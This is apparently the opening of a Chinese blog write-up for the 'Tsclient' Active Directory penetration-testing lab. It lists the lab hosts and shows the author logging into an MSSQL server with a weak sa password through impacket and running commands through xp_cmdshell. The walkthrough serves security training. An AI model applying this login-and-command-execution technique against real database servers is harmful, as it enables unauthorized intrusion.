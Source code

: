 ```yaml
---
layout: post
title: Tsclient - 春秋云镜
category: [春秋云镜]
tags: [active directory pentesting, tsclient, image hijacks]
---
```


![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/3197336f62f849ea.png)

靶标介绍：

Tsclient 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 3 个 flag，分布于不同的靶机。

| 内网地址    | Host or FQDN              | 简要描述                   |
| ----------- | ------------------------- | -------------------------- |
| 172.22.8.18 | WIN-WEB                   | 外网 MSSQL 数据库服务器    |
| 172.22.8.31 | WIN19-CLIENT.XIAORANG.LAB | john 用户的 RDP 客户端电脑 |
| 172.22.8.46 | WIN2016.XIAORANG.LAB      | Domain Admins 组中的主机   |
| 172.22.8.15 | DC01.XIAORANG.LAB         | 域控                       |

## MSSQL

外网 mssql 弱口令，可以使用 xp_cmdshell 执行命令：

```
┌──(root㉿kali)-[/home/kali/Desktop]
└─# impacket-mssqlclient sa:'1qaz!QAZ'@xx.xx.xx.xx
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: 简体中文
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN-WEB): Line 1: 已将数据库上下文更改为 "master"。
[*] INFO(WIN-WEB): Line 1: 已将语言设置更改为 简体中文。
[*] ACK: Result: 1 - Microsoft SQL Server (130 665)
[!] Press help for extra shell commands
SQL> xp_cmdshell whoami
output

--------------------------------------------------------------------------------

nt service\mssqlserver

NULL

SQL>
```
